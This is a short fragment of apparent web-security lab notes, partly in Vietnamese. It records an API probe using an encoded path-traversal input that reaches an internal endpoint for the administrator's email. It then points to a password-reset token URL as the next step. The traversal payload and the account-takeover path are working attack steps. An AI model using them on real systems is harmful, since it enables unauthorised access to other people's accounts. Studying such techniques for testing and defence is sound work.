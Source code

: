 output:{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}

input: ..%2f..%2f..%2f..%2fapi%2finternal%2fv1%2fusers%2fadministrator%2ffield%2femail%23

![alt text](image-42.png)

output:{"result":"*****@normal-user.net","type":"email"}


-> note (2.1) có khả năng có hậu tố (/field/email)

![alt text](image-43.png)

-> `/forgot-password?passwordResetToken=${resetToken}`

-> OK:
